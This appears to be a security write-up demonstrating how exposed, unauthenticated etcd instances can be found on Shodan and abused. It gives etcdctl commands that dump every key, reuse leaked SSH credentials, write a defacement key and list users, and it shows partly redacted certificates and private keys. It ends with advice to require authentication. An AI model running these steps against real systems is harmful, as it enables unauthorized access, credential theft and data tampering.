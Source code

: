 # PoC: Hacking Systems via Exposed ETCD Instances

[*Etcd*](https://github.com/etcd-io/etcd) is an open-source distributed key-value store that provides a reliable way to store data across a cluster of machines.  
It's often used as a foundational component in distributed systems, serving as a distributed coordination service for managing configurations, maintaining state, and facilitating communication between different parts of a distributed system.  

Originally developed by CoreOS, etcd is written in Go and uses the **Raft consensus algorithm** to ensure consistency and fault-tolerance.  
It's designed to be highly available, durable, and scalable, making it suitable for use in production environments where reliability and consistency are crucial.  

Some common use cases for etcd include service discovery, leader election, configuration management, and coordination between distributed components.  
It's widely used in container orchestration systems like **Kubernetes**, where it helps manage cluster state and configuration data for containers and their applications.  

It is not uncommon to encounter instances of etcd publicly exposed and lacking authentication measures.  
In such cases, malevolent actors may exploit the API using tools like curl or, preferably, [*etcdctl*](https://github.com/etcd-io/etcd/blob/main/etcdctl/README.md), to perform malicious operations. Here is an example of a real-world scenario.  

## The Scenario
A malicious actor is probing exposed services on [*Shodan*](https://www.shodan.io/) with the following simple query: `etcd`.  
After several attempts, they discover an instance of etcd without authentication and attempt to list the *keys/values* using the following command:  
```bash
export ETCDCTL_ENDPOINTS="http://$EXPOSED_IP:2379" \
&& export ETCDCTL_API=3 \
&& etcdctl get --prefix ""
```  

Possible Output:  

```bash
/apis/url/
https://my.api.com/v1/users/  

apis/token/
wBtkA97eCyqPfQWtGBXf35T5AYbAuKGrQ1Ifq6wgzwjhZXtr87yQDgokSjfiVCVI  

/ssh/user/
system  

/ssh/pass/
Pp4Ss_W.0rd_
```  

> Note  
> the attacker can also list all the etcd peers with this command: `etcdctl member list`  


It's worth noting that, at this juncture, an attacker could potentially inflict damage on the system by deleting and/or modifying the values of the etcd keys.  
In this specific scenario, if the target server also exposes SSH, the attacker might also attempt to gain access using the values of the keys */ssh/user/* and */ssh/pass/*:  

```bash
ssh system@$EXPOSED_IP 
system password:  Pp4Ss_W.0rd_
```   

The attacker can also add a new key value:  
```bash
etcdctl put rooted P4wn3D!🖕
```  

or retrieve etcd users and roles:  
```bash
etcdctl user list; etcdctl role list
```  

There have also been instances where [*PostgreSQL*](https://www.postgresql.org/) configurations were stored in one key in etcd, and its credentials in another.  
In that particular scenario, PostgreSQL was also exposed as a service on the server, allowing us to query a list of tables and all the data contained within them.  
Furthermore, we discovered wildcard certificates for the entire domain of a company, intentionally redacted and obscured as follows:  

```bash
/apisix/ssl/982578101
{"id":"423764178751193820","create_time":1662112733,"update_time":1689821613,"cert":"-----BEGIN CERTIFICATE-----\nMIIGLDCCBRSgAwIBAgIQCJY\n-----END CERTIFICATE-----\n-----BEGIN CERTIFICATE-----\nMITqCwtukZ7u9VLL3JAq3Wdy2moKLvvC8tVmRzkAe\n0xQCkRKIjbBG80MSyDX/R4uYgj6ZiNT/Zg6GI6RofgqgpDdssLc0XIRQEotxIZcK\nzP3pGJ9FCbMHmMLLyuBd+uCWvVcF2ogYAawufChS/PT61D9rqzPRS5I2uqa3tmIT\n44JhJgWhBnFMb7AGQkvNq9KNS9dd3GWc17H/dXa1enoxzWjE0hBdFjxPhUb0W3wi\n8o34/m8Fxw==\n-----END CERTIFICATE-----\n","key":"-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAzF/2R4nLsR8JCsX3Pl1kAML/zy0fmBFRXhPWmE7SGYoiWciq\niIalocl4DM7b5KEk5XwsFdMIEovyy0fgTOhquBwI+t35v7BN5b/BV/zNXHlmqqSs\nCITYs+C/7Ez6C0rsC7pyAmOUaAat4FsaSzvm/Z84s2qwtdejcwnv\n-----END RSA PRIVATE KEY-----\n",
"snis":["*.company.com","company.com"],"status":1,"validity_start":1689638400,"validity_end":1723593599}
```  

These are likely SSL/TLS certificates for [*Apache APISIX*](https://github.com/apache/apisix).  
APISIX is an open-source, cloud-native microservices API gateway that it is used for managing and securing (sigh 😔) APIs.  

Here is a list of attacks that a threat actor can probably implement with access to such certificates:  
- **Man-in-the-Middle (MitM) Attacks**
- **Data Interception**
- **Traffic Redirection**
- **Session Hijacking**
- **SSL Stripping**
- **Impersonation Attacks**
- **Replay Attacks**

Keep in mind that it is rare to encounter exposed instances of etcd containing keys with this type of sensitive data, but it has occurred in the past following some reconnaissance efforts.  


This scenario serves as a [*yet another reminder*](../04-04-24/kubernetes.md) to consistently implement robust authentication mechanisms for our systems and to refrain from exposing them to the entire world unless absolutely necessary (which, in 99.99% of cases, it is not).  


<br>  


- [Back to main page](../../../index.md)  